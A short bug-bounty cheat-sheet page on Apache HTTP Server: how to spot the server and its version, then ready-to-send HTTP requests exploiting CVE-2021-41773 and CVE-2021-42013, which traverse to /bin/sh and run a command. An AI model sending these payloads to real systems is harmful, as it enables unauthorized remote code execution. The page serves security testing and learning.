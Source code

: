 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Apache%20HTTP%20Server.md#introduction)

What would you do if you came across a website that uses Apache (HTTP Server)?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Apache%20HTTP%20Server.md#how-to-detect)

Usually in the HTTP response there is a header like this `Server: Apache` or `Server: Apache/2.4.50` and check the 404 page

1. Find the related CVE by checking Apache (HTTP Server) version

- How to find the Apache (HTTP Server) version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated Apache (HTTP Server) version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html)

Some example CVE:

- CVE-2021-41773 (RCE and LFI)

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded
Connection: close

echo;id
```

- CVE-2021-42013 (RCE and LFI)

```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

echo;id
```



